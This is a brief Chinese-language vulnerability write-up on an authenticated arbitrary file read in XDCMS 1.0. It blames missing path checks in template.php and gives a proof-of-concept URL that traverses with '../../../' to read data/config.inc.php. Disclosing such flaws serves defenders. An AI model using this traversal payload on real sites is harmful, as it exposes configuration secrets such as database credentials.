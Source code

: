 XDCMS 1.0 后台任意文件读取
==========================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

漏洞文件漏洞文件：`system\modules\xdcms\template.php`，同上述xss漏洞相同

![](./resource/XDCMS1.0后台任意文件读取/media/rId24.jpg)

第43行未对文件进行限制，从而导致了目录遍历，造成任意文件读取

对GET数据没有过滤

    http://www.0-sec.orv/xdcms/index.php?m=xdcms&c=template&f=edit&file=../../../data/config.inc.php

后台任意文件读取。

![](./resource/XDCMS1.0后台任意文件读取/media/rId25.jpg)
